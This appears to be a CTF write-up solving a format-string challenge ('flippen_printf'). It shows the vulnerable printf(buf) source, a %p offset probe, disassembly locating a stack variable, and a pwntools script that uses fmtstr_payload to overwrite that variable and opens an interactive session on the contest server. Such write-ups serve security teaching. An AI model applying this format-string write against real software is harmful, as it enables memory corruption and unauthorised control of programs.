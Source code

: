 ```c
 	buf[read(0, buf, 256) - 1] = 0;
	printf(buf);
```
## Finding offset
```bash
󰣇 lit_ctf/pwn/flippen_printf ❯ ./uc                                                                                                     
Buffer located at: 0x7fffc1674160
AAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAAAAAAA0x7fffc16741600x2c(nil)(nil)(nil)0x10(nil)0x41414141414141410x25702570257025410x25702570257025700x25702570257025700x25702570257025700x7707007025700x218c0329000000020x100x400x1200000
```
We can see that the Letters are Repeated at 8th Offset , so we can confirm that where out printf input buffer starts.

## Finding address of x
```asm wrap=false showLineNumbers=false
   0x555555555229 <main+70>     mov    qword ptr [rbp - 0x118], 0     [0x7fffffffd528] <= 0
   0x555555555234 <main+81>     lea    rax, [rbp - 0x110]             RAX => 0x7fffffffd530 ◂— 1
 ► 0x55555555523b <main+88>     mov    rsi, rax                       RSI => 0x7fffffffd530 ◂— 1
   0x55555555523e <main+91>     lea    rax, [rip + 0xdc7]             RAX => 0x55555555600c ◂— 'Buffer located at: %p\n'
   0x555555555245 <main+98>     mov    rdi, rax                       RDI => 0x55555555600c ◂— 'Buffer located at: %p\n'
   0x555555555248 <main+101>    mov    eax, 0                         EAX => 0
   0x55555555524d <main+106>    call   printf@plt                  <printf@plt>
```
At main+70 , we can see that value 0 is moving to $rbp-0x118 , which is the variable x.
Since the program is good enough to leak the buffer address , so we can calculate x stack address with it, where x = buf - 8.

## Exploit
```py
from pwn import *
context.binary = elf = ELF('uc')

#p = process()
p = remote('litctf.org', 31785)

p.recvuntil(b'Buffer located at: ')
buf_addr = int(p.recvline(),16)

x_addr = buf_addr - 8
payload = fmtstr_payload(8, {x_addr: 1})

p.sendline(payload)
p.interactive()
```
```bash
 python ../flippen_printf/solve.py           
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to litctf.org on port 31785: Done
[*] Switching to interactive mode
ca\x98\xcb\xde\x16\xfe\x7f$ l
```